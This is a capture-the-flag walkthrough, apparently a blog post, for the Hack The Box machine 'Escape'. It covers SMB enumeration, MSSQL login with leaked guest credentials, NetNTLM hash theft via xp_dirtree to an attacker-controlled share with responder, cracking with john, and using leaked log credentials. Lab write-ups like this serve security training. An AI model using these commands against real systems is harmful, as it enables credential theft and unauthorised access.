 ```yaml
---
title: HTB Escape
date: 2023-03-16 02:47:00 -0500
categories: [Walkthrough, Hackthebox]
tags: [HTB, Hackthebox]
published: true
---
```


## Enumeration

Running `nmap -sC -sV -O -T5 sequel.htb -vvvv -oN nmap_inital` shows us the target we have is a windows runing kerberos and has the typical ports such as RPC and SMB.

### SMB 

```bash
smbclient -L sequel.htb -U "" --password ""

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Public          Disk      
        SYSVOL          Disk      Logon server share 
```

We're allowed anonymous access we can check the public drive `smbclient \\\\sequel.htb\\Public -U "" --password ""`. `dir` shows us a pdf, we can get that with `get "SQL Server Procedures.pdf"`.

![SQL Server Procedures](/assets/escape01.png)

## MSSQL Server - 1433

```bash
sqsh -S sequel.htb -U PublicUser -P GuestUserCantWrite1
```

We can connect with sqsh, then setup responder to capture the NTLM hash.

### Steal NetNTLM hash / Relay attack

setup responder on our attacker machine `sudo responder -I tun0`

in the sqsh cmd `xp_dirtree '\\attacker_ip\0xskar'`

and we get back a response with the hash:

![responder hash](/assets/escape02.png)

## Hash Cracking

Save the NTLM hash and feed it to john with rockyou.txt

![Feed to john](/assets/escape03.png)

## Privilege Escalation - User.txt

So with the credentials we can create a connection with evil-winrm.

Browsing around the machine we are not allowed to look at much but there is a log file in the SQLServer logs that has an entry for Ryan.Cooper who was looking at their keyboard while loggin in apparently.

`type ERRORLOG.bak`

![creds in logs file](/assets/escape04.png)

We can login to Ryan's account and pickup the user flag.
